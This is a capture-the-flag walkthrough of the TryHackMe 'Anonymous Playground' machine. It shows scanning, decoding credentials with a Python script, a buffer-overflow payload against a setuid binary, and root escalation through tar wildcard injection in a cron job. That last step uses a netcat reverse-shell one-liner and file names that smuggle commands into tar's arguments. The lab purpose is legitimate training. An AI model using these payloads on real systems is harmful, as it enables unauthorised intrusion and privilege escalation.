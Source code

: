 # Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

- Network Enumeration
- Web Poking
- Cookie Manipulation
- Python Scripting (Decoding)
- Reverse Engineering
- Exploiting Crontab

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous? Well, it won't be that easy. They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous. Can you do it? Do you have
what it takes?

There's 3 flags on this machine. Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions. Without his patience,
I would have never been able to create this room the way I had imagined it. So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)

![](./2020-10-20_18-13.png)

![](./2020-10-20_18-14.png)

`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py
m a g n a :: m a g n a i s a n e l e p h a n t
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt

```
